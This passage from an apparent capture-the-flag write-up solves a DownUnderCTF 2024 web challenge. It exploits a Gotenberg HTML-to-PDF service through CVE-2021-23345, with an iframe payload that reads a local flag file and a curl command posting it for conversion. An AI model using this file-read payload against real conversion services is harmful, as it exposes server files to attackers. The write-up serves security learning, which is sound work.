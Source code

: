 This led me to [this](https://github.com/gotenberg/gotenberg/issues/261) GitHub issue, which is assigned with [CVE-2021-23345](https://nvd.nist.gov/vuln/detail/CVE-2021-23345). Thus, the following payload works to read the flag using the newly added test data.

```md
# Payload
<iframe src="\\localhost/etc/flag.txt"></iframe>

# Command
curl --request POST --url https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/html --header 'Content-Type: multipart/form-data' --form files=@index.html -o flag.pdf
```

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-19.png)

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-20.png)

Flag : `DUCTF{dEeZ_r3GeX_cHeCK5_h4h_g0t_eM}`

## Web : sniffy 
